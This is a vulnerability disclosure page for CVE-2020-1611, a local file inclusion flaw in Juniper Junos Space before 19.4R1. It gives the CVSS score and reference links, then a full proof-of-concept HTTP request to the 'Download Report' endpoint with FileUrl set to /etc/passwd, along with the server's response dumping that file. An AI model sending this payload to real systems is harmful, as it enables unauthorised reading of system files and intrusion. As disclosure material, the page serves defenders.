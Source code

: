 ```yaml
---
title: Juniper Junos Space Local File Inclusion Vulnerability
description: Juniper Junos Space prior to 19.4R1 Local File Inclusion Vulnerability
header: Juniper Junos Space prior to 19.4R1 Local File Inclusion Vulnerability
---
```

A Local File Inclusion vulnerability (CVE-2020-1611) in Juniper Networks Junos Space allows an attacker to view all files on the target when the device receives malicious HTTP packets.

<!--more-->

## Juniper Junos Space Local File Inclusion
Juniper Junos Space prior to 19.4R1 is vulnerable to a local file inclusion vulnerability. An attacker with normal user rights could exploit this vulnerability.

The "Download Report" function is vulnerable.

Base Score: 6.5<br />
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N

Links:

 - https://nvd.nist.gov/vuln/detail/CVE-2020-1611
 - https://kb.juniper.net/InfoCenter/index?page=content&id=JSA10993

### Example

GET Parameters:

 - Set "Format" to "txt"
 - Set "FileUrl" to a local path

Request:<br />

```http
GET /mainui/download?X-CSRF=Y581SFvKU5INQPItBUoNj4NKf4IuqjSyywfRylPN3GLYaML3fM074gV2AIPBQjHEJsuJ9d7
&type=downloadGROpenReport&_browserId=1553107455361
&FileUrl=/etc/passwd&Format=txt&nodeHost=space-000311c3b873 HTTP/1.1
Host: 10.10.10.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.10/mainui/nLegacy.jsp?bid=1553107455361&appName=CMP
DNT: 1
Connection: close
Cookie: ext-$sidebar_gettingStarted_checkbox=o%3Achecked%3Db%253A0;
DWRSESSIONID=sicWsVGWEjxdNYR7RJ60rCtbBrOmy0JHBm4h;
JSESSIONID="aoVrgUa7V1prIWVO5KEmCqF6QGuuYZ44RshRxEYHAJXqQDCNBjV6pLKiaaXQx2jWjGWw5TxnDxkKtsi
_.space-000311c3b873:server3";
JSESSIONIDSSO=Cm5qb87syONJ2lku1dadTx-SVyaoy0k9lt-bwSnTkfFrdONVfvmzrxB+g8xny4gjyKk_;
X-CSRF=Y581SFvKU5INQPItBUoNj4NKf4IuqjSyywfRylPN3GLYaML3fM074gV2AIPBQjHEJsuJ9d7; JxRunningBids=_1553107455361_
``` 

<br />Response:<br />

```http
HTTP/1.1 200 OK
Date: Wed, 24 Apr 2019 13:32:31 GMT
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Pragma: No-cache
Cache-Control: no-cache,no-store,must-revalidate,private
Expires: Thu, 01 Jan 1970 00:00:00 UTC
Content-Disposition: attachment; filename="passwd"
Content-Type: application/octet-stream
Content-Length: 1345
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:2:2:daemon:/sbin:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
mysql:x:499:499:MySQL server:/var/lib/mysql:/sbin/nologin
cassandra:x:498:498::/var/lib/cassandra:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
gluster:x:497:497:GlusterFS daemons:/var/run/gluster:/sbin/nologin
jboss:x:500:500::/usr/local/jboss:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
saslauth:x:496:76:Saslauthd user:/var/empty/saslauth:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
unbound:x:495:495:Unbound DNS resolver:/etc/unbound:/sbin/nologin
redis:x:494:494:Redis Server:/var/lib/redis:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
slipstream:x:493:493::/usr/local//slipstream/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74::/var/empty/sshd:/sbin/nologin
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
pcap:x:77:77:::/sbin/nologin
opennms:x:503:504::/home/opennms:/bin/bash
cassandr:x:504:505::/home/cassandr:/bin/bash
```
<br />
**Michael Wollner** ([@Ibonok](https://github.com/Ibonok))
